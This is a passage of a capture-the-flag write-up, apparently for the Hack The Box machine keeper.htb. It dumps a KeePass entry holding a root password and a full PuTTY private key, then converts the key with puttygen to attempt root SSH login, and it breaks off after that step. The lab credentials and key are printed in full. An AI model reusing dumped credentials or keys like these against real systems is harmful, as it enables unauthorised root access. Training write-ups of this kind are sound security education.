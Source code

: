 ```
eMail/
General/
Homebanking/
Internet/
Network/
Recycle Bin/
Windows/
kpcli:/passcodes> cd Network/
kpcli:/passcodes/Network> ls
=== Entries ===
0. keeper.htb (Ticketing Server)                                          
1. Ticketing System                                                       
kpcli:/passcodes/Network> show -f -a 0

Title: keeper.htb (Ticketing Server)
Uname: root
 Pass: F4><3K0nd!
  URL: 
Notes: PuTTY-User-Key-File-3: ssh-rsa
       Encryption: none
       Comment: rsa-key-20230519
       Public-Lines: 6
       AAAAB3NzaC1yc2EAAAADAQABAAABAQCnVqse/hMswGBRQsPsC/EwyxJvc8Wpul/D
       8riCZV30ZbfEF09z0PNUn4DisesKB4x1KtqH0l8vPtRRiEzsBbn+mCpBLHBQ+81T
       EHTc3ChyRYxk899PKSSqKDxUTZeFJ4FBAXqIxoJdpLHIMvh7ZyJNAy34lfcFC+LM
       Cj/c6tQa2IaFfqcVJ+2bnR6UrUVRB4thmJca29JAq2p9BkdDGsiH8F8eanIBA1Tu
       FVbUt2CenSUPDUAw7wIL56qC28w6q/qhm2LGOxXup6+LOjxGNNtA2zJ38P1FTfZQ
       LxFVTWUKT8u8junnLk0kfnM4+bJ8g7MXLqbrtsgr5ywF6Ccxs0Et
       Private-Lines: 14
       AAABAQCB0dgBvETt8/UFNdG/X2hnXTPZKSzQxxkicDw6VR+1ye/t/dOS2yjbnr6j
       oDni1wZdo7hTpJ5ZjdmzwxVCChNIc45cb3hXK3IYHe07psTuGgyYCSZWSGn8ZCih
       kmyZTZOV9eq1D6P1uB6AXSKuwc03h97zOoyf6p+xgcYXwkp44/otK4ScF2hEputY
       f7n24kvL0WlBQThsiLkKcz3/Cz7BdCkn+Lvf8iyA6VF0p14cFTM9Lsd7t/plLJzT
       VkCew1DZuYnYOGQxHYW6WQ4V6rCwpsMSMLD450XJ4zfGLN8aw5KO1/TccbTgWivz
       UXjcCAviPpmSXB19UG8JlTpgORyhAAAAgQD2kfhSA+/ASrc04ZIVagCge1Qq8iWs
       OxG8eoCMW8DhhbvL6YKAfEvj3xeahXexlVwUOcDXO7Ti0QSV2sUw7E71cvl/ExGz
       in6qyp3R4yAaV7PiMtLTgBkqs4AA3rcJZpJb01AZB8TBK91QIZGOswi3/uYrIZ1r
       SsGN1FbK/meH9QAAAIEArbz8aWansqPtE+6Ye8Nq3G2R1PYhp5yXpxiE89L87NIV
       09ygQ7Aec+C24TOykiwyPaOBlmMe+Nyaxss/gc7o9TnHNPFJ5iRyiXagT4E2WEEa
       xHhv1PDdSrE8tB9V8ox1kxBrxAvYIZgceHRFrwPrF823PeNWLC2BNwEId0G76VkA
       AACAVWJoksugJOovtA27Bamd7NRPvIa4dsMaQeXckVh19/TF8oZMDuJoiGyq6faD
       AF9Z7Oehlo1Qt7oqGr8cVLbOT8aLqqbcax9nSKE67n7I5zrfoGynLzYkd3cETnGy
       NNkjMjrocfmxfkvuJ7smEFMg7ZywW7CBWKGozgz67tKz9Is=
       Private-MAC: b0a0fd2edf4f0e557200121aa673732c9e76750739db05adc3ab65ec34c55cb0
Icon#: 3
Creat: 2023-05-19 08:36:50
Modif: 2023-05-24 10:48:21
Xpire: Never
```
I get a password and an RSA key. Let's try the password:
```
$ssh root@10.129.103.106
root@10.129.103.106's password: F4><3K0nd! 
Permission denied, please try again.
```
It does not work. Let's try with the key. I put it in a file named `id_rsa.ppk`:
```
$ssh -i id_rsa.ppk root@10.129.103.106
Load key "id_rsa.ppk": invalid format
```
It seems the PPK format (Putty private key) is not supported. We need to convert it to OpenSSH format:
```
$puttygen id_rsa.ppk -O private-openssh -o id_rsa.ssh
```